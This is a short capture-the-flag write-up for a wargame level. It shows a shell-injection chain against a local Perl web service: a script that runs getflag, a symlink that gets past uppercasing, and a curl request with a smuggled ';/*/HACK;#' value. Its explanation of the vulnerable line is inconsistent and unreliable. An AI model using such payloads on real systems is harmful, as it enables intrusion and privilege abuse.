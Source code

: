 # level12

1. Files found in `~/` :

```bash
level12.pl
```

2. Analysis of the `level12.pl` script

The service listens on `127.0.0.1:4646` and processes GET parameters `x` and `y`.
The script uses command substitution with `@output = grep /$x/, @output;` where `$x` is directly inserted into the command.
Problem : the `$x` variable is **concatenated** directly into a shell command → **shell injection possible**.

3. Exploitation

The process executes with the rights of `flag12` → the objective is to execute `/bin/getflag` on the server side and write the output to a file readable by the user.

```bash
# Create a malicious script
echo "/bin/getflag > /tmp/token" > /tmp/script.sh
chmod 777 /tmp/script.sh

# Create a symbolic link to bypass restrictions related to uppercase conversion
ln -s /tmp/script.sh /tmp/HACK

# Exploit the injection via curl
curl -Gs 'http://127.0.0.1:4646/' \
  --data-urlencode 'x=";/*/HACK;#' \
  --data-urlencode 'y='

# Retrieve the created token
cat /tmp/token
```

4. Token discovered

The token is : `g1qKMiRpXf53AWhDaU7FEkczr`
